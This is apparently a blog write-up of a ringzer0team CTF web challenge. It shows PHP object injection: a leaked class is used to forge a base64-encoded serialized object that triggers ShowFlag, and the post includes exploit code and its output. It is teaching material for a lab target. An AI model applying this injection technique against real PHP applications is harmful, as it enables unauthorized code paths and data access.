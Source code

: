 ```yaml
---
layout: post
title:  "Writeup - ringzer0team.com challenges (web 41) - 'Serial Killer!'"
date:   2018-05-21 11:14:41 -0400
categories: ringzer0team.com writeup
---
```

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-init.png)
This challenge initially displays a timestamp on the page. Digging into the request being sent, notice that there is a base64 encoded string within the GET request:

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-base64.png)

When decoded, this is immediately recognizable as a serialized PHP object:

{% highlight php %}
O:11:"RandomClass":1:{s:20:"RandomClassuStruct";O:8:"stdClass":1:{s:6:"action";s:14:"GetCurrentDate";}}
{% endhighlight %}

What happens if we add a single character within the base64 encoded "?o=" serialized value to upset the object structure? A wild stack trace appears:

![Challenge Intro]({{ site.baseurl }}/images/rz-serial-stack-trace.png)

Cleaning this up reveals the following PHP code. This shows the same 'RandomClass' class as exists in the discovered serialized string. What if we could inject our own object with arbitrary values and somehow retrieve the flag? In order to do that, we must first understand how the available PHP ['magic methods'](http://php.net/manual/en/language.oop5.magic.php) within the stack trace might assist us. Recommended reading for understanding PHP Object Injection will also be linked at the bottom of this post.

{% highlight php linenos %}
<?php

class RandomClass {

    private static $instance;
    private $uStruct;
    
    public function __construct() {
        $this->uStruct = (object) array();
    }
    
    public static function GetInstance() {
        if (!isset(self::$instance)) {
            self::$instance = new self();
        }
        return self::$instance;
    }

    public function __set($key, $value) {
        $this->uStruct->$key = $value;
    }

    public function __get($key) {
        return $this->uStruct->$key;
    }
    
    public function DoAction() {
        $action = $this->uStruct->action;
        $this->$action();
    }

    public function GetCurrentDate() {
        GetCurrentDate($this->uStruct);
    }

    public function ShowFlag() {
        if ($this->uStruct->time !== null && $this->uStruct->flag == 'Please?') {
            ShowFlag($this->uStruct);
        }
    }

    public function GetOutput() {
        return $this->uStruct->output;
    }
}
?>
{% endhighlight %}

Walking through the PHP code, first notice two private members (?). Immediately following that is the __construct() method. This magic method is called on each newly-created object, generally utilized for initialization of some sort. Inside the constructor is an empty array cast to an object, which is assigned to $this->uStruct.

From the PHP documentation, ["If a value of any other type is converted to an object, a new instance of the stdClass built-in class is created. If the value was NULL, the new instance will be empty. An array converts to an object with properties named by keys and corresponding values."](http://php.net/manual/en/language.types.object.php#language.types.object.casting)

The next magic method is __set. Reading PHP docs, ["__set() is run when writing data to inaccessible properties."](http://php.net/manual/en/language.oop5.overloading.php#language.oop5.overloading.members). This looks potentially promising. The __get() magic method is also defined here, but what really catches the eyes is the ShowFlag() function. If only it was possible to set the variables $this->uStruct->time and $this->uStruct->flag and retrieve the flag...

With the leak of the RandomClass class, we can create our own serialized object, base64 encode it, and provide as the value for "?o=" within the HTTP query string.

{% highlight php %}
$obj = new RandomClass();
$obj->time = "1";
$obj->flag = "Please?";
$obj->action = "ShowFlag";
echo serialize($obj);
{% endhighlight %}

{% highlight %}
root@kali:~/Challenge41# php sploit.php 
O:11:"RandomClass":1:{s:20:"RandomClassuStruct";O:8:"stdClass":3:{s:4:"time";s:1:"1";s:4:"flag";s:7:"Please?";s:6:"action";s:8:"ShowFlag";}}

root@kali:~/Challenge41# php sploit.php | hexdump -C
00000000  4f 3a 31 31 3a 22 52 61  6e 64 6f 6d 43 6c 61 73  |O:11:"RandomClas|
00000010  73 22 3a 31 3a 7b 73 3a  32 30 3a 22 00 52 61 6e  |s":1:{s:20:".Ran|
00000020  64 6f 6d 43 6c 61 73 73  00 75 53 74 72 75 63 74  |domClass.uStruct|
00000030  22 3b 4f 3a 38 3a 22 73  74 64 43 6c 61 73 73 22  |";O:8:"stdClass"|
00000040  3a 33 3a 7b 73 3a 34 3a  22 74 69 6d 65 22 3b 73  |:3:{s:4:"time";s|
00000050  3a 31 3a 22 31 22 3b 73  3a 34 3a 22 66 6c 61 67  |:1:"1";s:4:"flag|
00000060  22 3b 73 3a 37 3a 22 50  6c 65 61 73 65 3f 22 3b  |";s:7:"Please?";|
00000070  73 3a 36 3a 22 61 63 74  69 6f 6e 22 3b 73 3a 38  |s:6:"action";s:8|
00000080  3a 22 53 68 6f 77 46 6c  61 67 22 3b 7d 7d        |:"ShowFlag";}}|
0000008e
root@kali:~/Challenge41# php sploit.php | base64
TzoxMToiUmFuZG9tQ2xhc3MiOjE6e3M6MjA6IgBSYW5kb21DbGFzcwB1U3RydWN0IjtPOjg6InN0
ZENsYXNzIjozOntzOjQ6InRpbWUiO3M6MToiMSI7czo0OiJmbGFnIjtzOjc6IlBsZWFzZT8iO3M6
NjoiYWN0aW9uIjtzOjg6IlNob3dGbGFnIjt9fQ==

{% endhighlight %}

